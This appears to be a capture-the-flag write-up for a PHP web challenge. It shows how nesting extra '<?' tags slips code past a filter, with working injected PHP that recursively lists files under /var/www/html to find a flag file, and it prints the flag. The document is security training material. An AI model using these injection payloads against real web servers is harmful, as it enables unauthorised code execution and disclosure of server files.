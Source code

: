 # web/ProgrammersHateProgramming2

>web/ProgrammersHateProgramming2

>232 Points\
>oh noes now there are more filters :(( Link: http://147.182.172.217:42007/

***

Following the same method as ProgrammersHateProgramming, I took a look at the source code to see that now "<?" is also replaced, as well as many functions that I never used


Now adding an extra "<?" onto my original test, it still works!
```php
<?<?php<?php echo '<b>Hello World</b>'; ?>?>
```

Since none of the functions were in the new blocked list, I just added the same and ran
```php
<?<?php<?php
function getDirContents($dir, &$results = array()) {
    $files = scandir($dir);

    foreach ($files as $key => $value) {
        $path = realpath($dir . DIRECTORY_SEPARATOR . $value);
        if (!is_dir($path)) {
            $results[] = $path;
        } else if ($value != "." && $value != "..") {
            getDirContents($path, $results);
            $results[] = $path;
        }
    }

    return $results;
}

var_dump(getDirContents('/var/www/html'));?>?>
```
and also gave me a HUGE list of php files identical to before. Clearly this is not the intended solution, pretty sure I'm using other peoples solutions to find flags.

Again going through them all, I came across "z3fAOcw8kNcyCfn.php" with the desired flag, 
```
flag{wow_that_was_a_lot_of_filters_anyways_how_about_that_meaningful_connection_i_mentioned_earlier_:)}
```
